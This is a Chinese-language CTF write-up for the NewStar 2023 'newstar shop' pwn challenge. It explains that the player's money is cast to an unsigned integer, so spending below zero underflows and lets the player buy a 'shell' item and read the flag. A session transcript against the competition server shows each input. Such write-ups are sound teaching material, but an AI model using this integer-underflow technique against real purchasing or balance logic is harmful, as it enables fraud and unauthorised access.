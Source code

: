 ```yaml
---
title: newstar2023 week1 - newstar shop
date: 2023/9/26 12:00:00
tags:
    - noob
excerpt: 通过逆向分析`newstar_shop`程序，利用下溢漏洞以负钱购买商品并获取flag。
---
```


## 文件分析

下载`newstar_shop`, 保护全开  
ghidra分析为64位程序

## 解题思路

根据逆向结果，持有的钱会先转换成uint，那么只要使持有的钱下溢，
就可以购买天价终端了

注意：don't choose只能用一次

## EXPLOIT

nc node4.buuoj.cn 28760

以下为输入输出，输入会用**表示

```
 =================
 1.Go to the shop 
 2.Make some money
 3.Don't choose   
 =================
 
 
 **1**
 =============================
 ===Welcome to newstar shop===
 =============================
 1.newstar's gift          20$
 2.pwn write up            40$
 3.shell                 9999$
 
 
 All things are only available for one day!
 What do you want to buy?
 
 
 **2**
 You buy a pwn write up
 That is free after the match,haha
 
 
 =================
 1.Go to the shop 
 2.Make some money
 3.Don't choose   
 =================
 
 
 **1**
 =============================
 ===Welcome to newstar shop===
 =============================
 1.newstar's gift          20$
 2.pwn write up            40$
 3.shell                 9999$
 
 
 All things are only available for one day!
 What do you want to buy?
 
 
 **2**
 You buy a pwn write up
 That is free after the match,haha
 
 
 =================
 1.Go to the shop 
 2.Make some money
 3.Don't choose   
 =================
 
 
 **3**
 You shouldn't choose this
 Please remember, the shop owner doesn't like his secret to be found
 To punish your choice, you will lose 50$ and you will never be able to choose it!
 
 
 =================
 1.Go to the shop 
 2.Make some money
 3.Don't choose   
 =================
 
 
 **1**
 =============================
 ===Welcome to newstar shop===
 =============================
 1.newstar's gift          20$
 2.pwn write up            40$
 3.shell                 9999$
 
 
 All things are only available for one day!
 What do you want to buy?
 
 
 **3**
 How do you buy it?
 
 
 **cat flag**
 flag{你猜}
```

{% note default fa-dollar-sign %}
money变化：100 - 40 - 40 - 50 -> -10 -> 0xFFFFFFF5
{% endnote %}

Done.
